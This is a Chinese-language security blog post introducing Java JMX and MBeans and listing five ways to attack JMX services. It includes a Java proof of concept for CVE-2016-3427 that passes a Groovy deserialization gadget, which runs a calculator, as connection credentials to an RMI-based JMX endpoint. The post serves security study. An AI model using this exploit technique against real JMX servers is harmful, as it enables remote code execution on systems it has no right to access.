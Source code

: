 # JMX-Attack(1)

  
  
&lt;!--more--&gt;  
## 0x00 基础知识  
JMX时Java1.5引入的新特性，全称为`Java Management Extension`，即Java管理扩展，是管理/监控应用程序、设备、系统对象的工具。这些被管理的对象都可以抽象为MBean进行表示，客户端连接到服务端来管理MBean，如查询MBean属性、调用MBean方法等操作。而MBean的代码定义是有要求的，需要实现一个接口，所有需要对外公开的方法都需要在该接口中声明。另外此接口要求在MBean类名后加上MBean后缀，这里的例子中的MBean类是Hello，接口为HelloMBean。  
```java  
package org.example;    
    
public class Hello implements HelloMBean {    
    private String name  = &#34;huahua&#34;;    
    @Override    
    public String getName() {    
        return this.name;    
    }    
    
    @Override    
    public void setName(String name) {    
        this.name = name;    
    }    
    
    @Override    
    public String sayHello() {    
        return &#34;hello: &#34;&#43;this.name;    
    }    
}  
```  
`HelloMBean`接口  
```java  
package org.example;    
    
public interface HelloMBean {    
    public String getName();    
    public void setName(String name);    
    public String sayHello();    
}  
```  
对于管理器来说，这些MBean中公开的方法，最终会被转化为属性(Attribute)、调用(invoke)、监听(Listener)等概念。默认情况下每个Java进程都运行着MBean管理服务，使用`ManagementFactory.getPlatformMBeanServer()`获取到`MBeanServer`后可对`MBean`进行操作。下面的例子模拟管理器注册MBean并显示当前Java进程中的所有MBean  
```java  
package org.example;    
    
import javax.management.MBeanServer;    
import javax.management.ObjectInstance;    
import javax.management.ObjectName;    
import java.lang.management.ManagementFactory;    
    
public class MBeanExample {    
    public static void main(String[] args) throws Exception {    
        Hello mbean = new Hello();    
    
        ObjectName mbeanName = new ObjectName(&#34;org.example:type=Hello&#34;);    
    
        MBeanServer server = ManagementFactory.getPlatformMBeanServer();    
        server.registerMBean(mbean,mbeanName);    
    
        for(Object object : server.queryMBeans(new ObjectName(&#34;*:*&#34;),null)) {    
            System.out.println( ((ObjectInstance)object).getObjectName());    
        }    
    
    }    
}  
```  
https://www.oracle.com/java/technologies/javase/management-extensions-best-practices.html  
想要MBean在管理器上可调用，那么需要指定一个`ObjectName`对象，关于对象名称的详细语法参考上面链接。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502162046949.png)
`Object Name`在注册`MBean`时用于指定名称，在查询的时候可以指定正则用于查询，去匹配名称符合正则条件的MBean。每个Object Name都需要包含一个type关键属性。  
## 0x01 攻击JMX  
1、JMX-URL连接地址可控的JNDI注入利用方式  
2、攻击RMI Registry的利用方式  
3、RMI层&#34;自定义&#34;方法`newClinet`利用方式  
4、JMX层MBean方法`getLoggerLevel/goClassHistogram`利用方式  
5、MLET动态加载`Evil MBean`的利用方式  
第一种是针对JMX客户端的利用方式。后面是针对JMX服务，其中234都需要目标`ClassPath`存在可用的`Gadget`链，而第五个`MLET`动态加载是载入执行攻击者创建的恶意MBean类方法，所以没有Gadget的链子。从整体来看，JMX客户端与服务端的交互的流程及利用点如下  
1、客户端使用`javax.naming.InitialContext#lookup`获取到名称为`jmxrmi`的`Stub`代理对象，当JMX url可控时，会造成JNDI注入的问题。这是第一个利用点  
2、客户端调用`javax.management.remote.rmi.RMIServer#newClient`去获取`RMIConnectionImpl Stub`代理对象。当JMX服务需要验证时，会使用`JAAS-based authenticator`进行权限验证：根据服务的启动参数及`jmxremote.password`、`jmxremote.access`配置文件去匹配，当校验通过后返回代理对象。  
这部分会涉及到两个利用点：  
a、JMX底层是根据RMI进行通信的，当JDK版本存在低版本时，可以利用攻击RMI Registry的exp进行攻击，可利用`bind/lookup`方法传输恶意序列化数据/UnicastRef链利用。这是第二个利用点。  
b、newClient方法符合我们在攻击RMI中提到的应用层反序列化问题，参数为OBject类型，可以塞入我们的恶意Payload数据。这是第三个利用点  
3、客户端invoke调用`RMIConnectionImpl Stub`代理对象的方法去操作MBean/获取MBean信息这部分会涉及到两个攻击点：  
a、JMX层在还原MBean方法参数时也是采用反序列化的方式进行还原的，所以可将恶意数据塞入默认的MBean的有参方法。这是第四个利用点  
b、在客户端连接成功创建MBean时，可调用MLET动态加载的方式去加载攻击者构造的Evil MBean完成利用。这是第五个利用点。  
## 0x02 jmx-url连接地址可控的JNDI注入  
使用`JMXConnectorFactory#connect`连接JMX服务端时，会调用到`InitialContext#lookup`去获取名称为`jmxrmi`的远端对象。当JMX url可控时，会造成JNDI注入的问题  
```java  
JMX JNDI Gadget:    
javax.management.remote.JMXConnectorFactory.connect(JMXConnectorFactory.java:270)    
javax.management.remote.rmi.RMIConnector.connect(RMIConnector.java:287)    
javax.management.remote.rmi.RMIConnector.findRMIServer(RMIConnector.java:1922)    
javax.management.remote.rmi.RMIConnector.findRMIServerJNDI(RMIConnector.java:1955)    
javax.naming.InitialContext.lookup(InitialContext.java:417)  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502162200987.png)
## 0x03 攻击RMI Registry的利用方式  
因为JMX底层也是根据RMI进行通信，所以当JDK版本在低版本时，也可以使用RMI Registry的exp进行攻击，且这种攻击方式的触发点是在RMI层，还未执行代JMX权限校验部分，所以不受JMX权限的限制。  
利用RMI中攻击注册中心的的方式就可以。  
## 0x04 RMI层“自定义”方法new Client利用方式(CVE-2016-3427)  
当客户端使用`JMXConnectorFactory.connect`去连接服务端时，最终调用到`javax.management.remote.rmi.RMIServerImpl_Stub#newClinet`发起连接。其实该方法符合我们在攻击RMI Registry中提到的“应用层反序列化问题”情况：new Client方法参数为Object类型，可以塞入我们的恶意Payload(利用JMXConnector.CREDENTIALS配置添加)，  
```java  
public static void main(String[] args) throws Exception {  
    Object obj = new Groovy1().getObject(&#34;open -a Calculator&#34;);  
    connectWithJmxUrlByObject(obj);  
}  
  
private static void connectWithJmxUrlByObject(Object credentials) throws MalformedURLException, IOException {  
    String url = &#34;service:jmx:rmi:///jndi/rmi://192.168.232.145:2222/jmxrmi&#34;;  
    System.out.println(&#34;Trying to connect to &#34; &#43; url &#43; &#34; ...&#34;);  
    Map&lt;String, Object&gt; props = new HashMap&lt;&gt;();  
    props.put(JMXConnector.CREDENTIALS, credentials);  
    JMXConnector connector = JMXConnectorFactory.connect(new JMXServiceURL(url), props);  
    System.out.println(&#34;Connected: &#34; &#43; connector.getConnectionId());  
    System.out.println();  
    connector.close();  
}  
```  
具体漏洞详情可参考  
https://su18.org/post/rmi-attack/#1-%E6%81%B6%E6%84%8F%E6%9C%8D%E5%8A%A1%E5%8F%82%E6%95%B0  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/jmx-attack1/  

